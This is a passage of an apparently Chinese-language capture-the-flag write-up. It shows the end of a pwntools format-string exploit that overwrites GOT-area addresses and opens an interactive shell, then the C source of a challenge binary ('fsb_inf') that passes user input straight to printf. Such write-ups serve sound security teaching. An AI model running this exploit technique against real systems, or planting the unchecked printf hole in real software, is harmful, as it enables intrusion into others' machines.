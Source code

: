 ```
payload += pattern.format(0x8c9,n)
payload += pattern.format(s_sub(0x40,0x8c9),n+1)
payload += pattern.format(s_sub(0,0x40),n+2)
#payload += pattern.format(s_sub(0,0),n+3)
payload = payload.ljust(64,"A")

payload += p64(0x601018)
payload += p64(0x60101a)
payload += p64(0x60101c)
#payload += p64(0x60101e)

pause()

p.sendline(payload)


p.interactive()
```


### fsb_inf

放上源码：
```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <signal.h>

void echo() {
    char buf[0x200];
    memset(buf, 0, sizeof(buf));

    fgets(buf, sizeof(buf), stdin);
    printf(buf);
    puts("\nain't it cool, bye now");
}

void timeout() {
    puts("Time is up");
    exit(1);
}

void welcome() {
    setvbuf(stdin, 0LL, 2, 0LL);
    setvbuf(stdout, 0LL, 2, 0LL);

    char welcome[] =
        "================================================\n"
        "Welcome to the super echo-mon-better system, it \n"
        "will echo anything you said, like:\n\n"
        "Melody: I wanna a flag, mom\n"
        "Mom: I wanna a flag, mom\n"
        "================================================\n";
    puts(welcome);

    signal(SIGALRM, timeout);
    alarm(5);
}

int main(int argc, char const *argv[]) {
    int i = 0;
```